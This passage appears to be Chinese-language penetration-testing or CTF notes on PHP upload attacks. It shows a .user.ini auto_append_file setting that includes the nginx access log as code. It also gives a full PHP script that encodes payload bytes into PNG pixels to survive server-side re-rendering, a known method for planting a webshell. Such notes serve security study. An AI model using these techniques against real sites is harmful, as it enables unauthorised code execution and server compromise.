 - 直接在ini配置文件中包含url

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1668482419138-aef604c7-bff2-4fc8-ab2c-985a7cb6cf10.png#averageHue=%23f3f0f0&clientId=u6a08d332-4457-4&from=paste&height=104&id=ufa2bb930&originHeight=207&originWidth=778&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9876&status=done&style=none&taskId=u86039cdf-0f00-401c-a8d8-5b41c0c30f4&title=&width=389)

##### +日志包含

```shell
auto_append_file=/var/log/nginx/access.log
```

- 如果当前目录没有index.php，那么就自己上传一个

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1668525228277-f1bef240-dd66-46df-96c0-5edc26a1c3b4.png#averageHue=%23f8f6f6&clientId=uf6afd272-8243-4&from=paste&height=168&id=ud113c588&originHeight=335&originWidth=1779&originalType=binary&ratio=1&rotation=0&showTitle=false&size=43621&status=done&style=none&taskId=ub1eaca0b-4275-47e2-aac5-206d558a12c&title=&width=889.5)

- 上传后，有数据了，说明存在index.php，上传成功了




### 绕过二次渲染

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1668517464234-88517611-64a5-47fa-a1bb-9de5dc361765.png#averageHue=%23eae9e8&clientId=uf6afd272-8243-4&from=paste&height=306&id=u13f59fa6&originHeight=611&originWidth=917&originalType=binary&ratio=1&rotation=0&showTitle=false&size=200010&status=done&style=none&taskId=u72a351ab-5b68-4b5c-91c3-3b04e3e613a&title=&width=458.5)

#### png二次渲染

- 一个网站只能上传正常的png图片

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1668486486398-cb5dc953-504a-4ee6-b5cb-2c8b0413a57e.png#averageHue=%23f4f3f1&clientId=u6a08d332-4457-4&from=paste&height=36&id=ub7503981&originHeight=72&originWidth=1716&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24389&status=done&style=none&taskId=u6b968cfe-5038-4d1a-b7c1-42cf5c40bdc&title=&width=858)

- 上传后，发现可能存在图片包含，可能进行了二次渲染

绕过二次渲染的脚本：

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>

```
